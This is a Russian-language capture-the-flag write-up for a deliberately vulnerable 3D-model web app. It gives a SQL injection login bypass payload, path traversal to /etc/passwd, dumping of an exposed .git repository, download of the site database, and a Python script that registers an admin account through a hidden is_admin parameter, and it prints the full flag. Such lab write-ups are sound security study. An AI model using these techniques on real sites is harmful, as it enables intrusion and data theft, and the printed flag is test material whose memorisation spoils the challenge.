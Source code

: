 # 3D Models Inc

***Описание***: Я, конееечно же, всё понимаю, но так бездарно вести разработку сайтов! Это надо уметь...

Ссылка: `http://localhost:43434`

Формат: EclipseCTF{...}

---
### Решение - Этап 1. Исследование ресурса

Переходим на сайт:

![ScreenShot](screenshots/3D-models-inc-1.png)

Видим две формы - регистрация и авторизация. Логинов и паролей мы потенциально не знаем, но можно подобрать **Test:Test**, либо зарегистрироваться, либо войти через SQLi:

```
Логин: ' OR 1=1 --
Пароль: ' OR 1=1 --
(Доступны различные вариации, достаточно и просто в логин вставить нагрузку)
```

Таким образом, мы попадаем на главную страницу:

![ScreenShot](screenshots/3D-models-inc-2.png)

### Решение - Этап 2. Ошибка в профиле и отображение страниц (Path Traversal)

Переходим во вкладку "**Profile**":

![ScreenShot](screenshots/3D-models-inc-3.png)

>**TestUserName** - первый пользователь в таблице с пользователями внутри сервиса, поэтому при эксплуатации SQLi, мы получаем доступ относительно этого пользователя

Замечаем, что присутствует ошибка, связанная с `session_start()`. При этом мы получаем сведения о расположении сайта внутри контейнера - `/var/www/html/content_blocks/profile_content.php`

Далее обращаем внимание на то, как подгружается страница `profile_content.php` в URL-адресе:

```
http://192.168.31.9:43434/home.php?view=profile_content.php
```

Параметр `?view=`. Интересно! А еще интереснее, что нашли `Path Traversal`. Убедимся в этом:

```
http://192.168.31.9:43434/home.php?view=../../../../etc/passwd
```

![ScreenShot](screenshots/3D-models-inc-4.png)

Отлично! Но чем нам это может помочь? Если у вас получится докрутить до RCE - удачи, вы найдете новый вектор. Но, на мой взгляд, можно пойти по другому пути.

### Решение - Этап 3. Нахождение git-репозитория

Исследуем директории через `wfuzz`:

![ScreenShot](screenshots/3D-models-inc-5.png)

При переходе на `database` обнаруживаем `Forbidden`. Но, удача! 200 на `.git/HEAD`:

![ScreenShot](screenshots/3D-models-inc-6.png)

Используем `git-dumper` для того, чтобы выгрузить репозиторий:

```sh
git-dumper http://192.168.31.9:43434/.git/ ~/web-3d-models
```

![ScreenShot](screenshots/3D-models-inc-7.png)

### Решение - Этап 4. Исследование git-репозитория

Переходим в папку с полученным репозиторием:

![ScreenShot](screenshots/3D-models-inc-8.png)

Видим директорию `flag`. Забираем 2-ю часть флага:

![ScreenShot](screenshots/3D-models-inc-9.png)

Далее нам надо найти 1-ю и 3-ю части флага. Заглянем в директорию с БД:

![ScreenShot](screenshots/3D-models-inc-10.png)

Теперь мы знаем полный путь и название файла. Можно забрать сам файл, а можно и скачать напрямую:

```
http://192.168.31.9:43434/database/service-db.db
```

Открываем БД в DBBrowser:

![ScreenShot](screenshots/3D-models-inc-11.png)

Вот и наша третья часть флага. Но где первая? Вопрос крайне интересный. Для этого нам необходимо немного исследовать исходники и понять один ключевой пробел в безопасности, а именно - скрытый параметр при создании пользователя:

![ScreenShot](screenshots/3D-models-inc-12.png)

Иными словами, если нет передачи параметра `is_admin`, то он по умолчанию будет `False`. Но при регистрации мы можем передать этот параметр! Сплойт для создания админа:

```python
import requests
import os
import re
from bs4 import BeautifulSoup


sess = requests.Session()


def create_user_data():
	return [f"hacker-{os.urandom(8).hex()}", os.urandom(8).hex()]


creds = create_user_data()


# URL: http://localhost:1337/register.php
def register_admin_account(url, session, username, password):
	register_data = {
		"name": username,
		"username": username,
		"password": password,
		"is_admin": True,
		"register": "" # Да-да, тут нюанс!
	}

	register_resp = session.post(url, register_data)

	if (register_resp.status_code == 200):
		return f"[+] ADMIN Account was registered: {username} | {password}"
	else:
		return 0 


if __name__ == "__main__":
	print(register_admin_account("http://192.168.31.9:43434/register.php", sess, creds[0], creds[1]))
```

Запускаем:

![ScreenShot](screenshots/3D-models-inc-13.png)

Проходим авторизацию с полученными данными:

![ScreenShot](screenshots/3D-models-inc-14.png)

И вот она - последняя часть флага!

P.S. Я уверен в том, что таск можно решить и несколько иными способами на тех или иных этапах. Тут уже кто и как подходит к решению задачи! Так называемое "эталонное решение" представлено здесь

---

***Флаг***: `EclipseCTF{n0t_3v3n_gh0st5_4r3_th1s_3mpty}`